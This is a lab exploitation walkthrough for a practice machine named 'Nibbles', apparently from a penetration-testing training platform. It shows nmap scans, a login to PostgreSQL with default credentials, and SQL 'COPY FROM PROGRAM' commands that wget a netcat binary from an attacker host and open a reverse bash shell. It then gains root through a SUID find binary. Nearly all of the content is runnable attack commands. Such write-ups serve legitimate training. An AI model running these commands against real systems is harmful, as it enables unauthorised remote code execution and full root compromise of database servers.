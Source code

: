 # Exploitation Guide for Nibbles
## Summary
We'll gain code execution on this machine via a misconfigured PostgreSQL database server which is listening on all interfaces and accepts the default credentials. We can then escalate via misconfigured SUID permissions on the /usr/bin/find binary.
Enumeration
Nmap

### Let's begin with a full nmap TCP port scan.
`sudo nmap -p- 192.168.234.140`

![6311676dc05520684e6e9262dd894681.png](../../../../../../_resources/6311676dc05520684e6e9262dd894681.png)

### A focussed scan identifies PostgreSQL running on port 5437.
`sudo nmap -p 5437 192.168.234.140 -A -sV -T4`

![a02ba6fb39f5b07a33f6b838cf7da781.png](../../../../../../_resources/a02ba6fb39f5b07a33f6b838cf7da781.png)

## Exploitation
### PostgreSQL Reverse Shell

Since the PostgreSQL server is listening on all interfaces, we can connect to it with psql. Since credentials are required, we begin password guessing and discover that the default credentials (postgres:postgres) are still active.

`psql -h 192.168.234.140 -p 5437 -U postgres`
![f9579c5c221c925c4aee16adf6fa5bf4.png](../../../../../../_resources/f9579c5c221c925c4aee16adf6fa5bf4.png)

In addition, the default PostgreSQL settings are also in place, which means we can easily grab a reverse shell. To do this, we'll first start a web server and host our copy of the Netcat binary.

### Find and host nc binary on kali:
```
which nc
cp /usr/bin/nc .
sudo python3 -m http.server 80
```
![870644268ac46124b13138d6ee553903.png](../../../../../../_resources/870644268ac46124b13138d6ee553903.png)

### Then, we'll set up a Netcat listener on port 5437.
`nc -lvp 5437`

After switching to the default postgres database, we can download the Netcat binary to the target and use it to connect back to our attack machine.

```
\c postgres;
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';
DELETE FROM cmd_exec;
COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';
```
![1556344d92fcf902797ba947b9d67438.png](../../../../../../_resources/1556344d92fcf902797ba947b9d67438.png)

Our listener caught a postgres shell:
![ecde8d1b6ef0788cca07cc47d94c6381.png](../../../../../../_resources/ecde8d1b6ef0788cca07cc47d94c6381.png)

## Escalation
### SUID

As part of our enumeration process, we use find to locate SUID programs and interestingly discover that the find program itself is SUID.

```
find / -perm -u=s -type f 2>/dev/null
<esql/11/main$ find / -perm -u=s -type f 2>/dev/null
```

We can easily abuse this misconfiguration to obtain a root shell.

`find . -exec /bin/sh -p \; -quit`
`whoami`
![e6d2ea39f7d0f20a7c9d18e20e110f25.png](../../../../../../_resources/e6d2ea39f7d0f20a7c9d18e20e110f25.png)

